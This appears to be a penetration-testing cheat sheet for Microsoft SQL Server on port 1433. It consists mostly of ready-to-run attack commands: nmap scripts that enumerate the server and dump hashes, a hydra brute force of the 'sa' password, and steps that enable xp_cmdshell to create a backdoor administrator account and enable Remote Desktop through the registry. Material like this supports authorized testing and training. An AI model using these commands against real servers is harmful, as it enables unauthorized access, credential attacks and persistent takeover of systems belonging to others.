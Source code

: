 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```text
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Quick brutetroce for pass “SA” password

```text
hydra -l sa -P password.txt -V $ip mssql
```

## Authentication

Connect to MSSQL Server:

```text
sqsh -S server_address -U sa -P password
```

### sqsh <a id="sqsh"></a>

Connect to MSSQL with valid credentials:

```text
sqsh -S <ip> -U username -P password
```

### mssqlclient.py <a id="mssqlclientpy"></a>

Authenticate to MSSQL with Windows Authentication:

```text
mssqlclient.py mssql-svc@<ip> -windows-auth
```

## Execute Shell Commands

Enable xp\_cmdshell:

```text
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
```

Execute System Command:

```text
xp_cmdshell 'net user byte bytepass /add'
go
xp_cmdshell 'net localgroup Administrators byte /add'
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
go
```



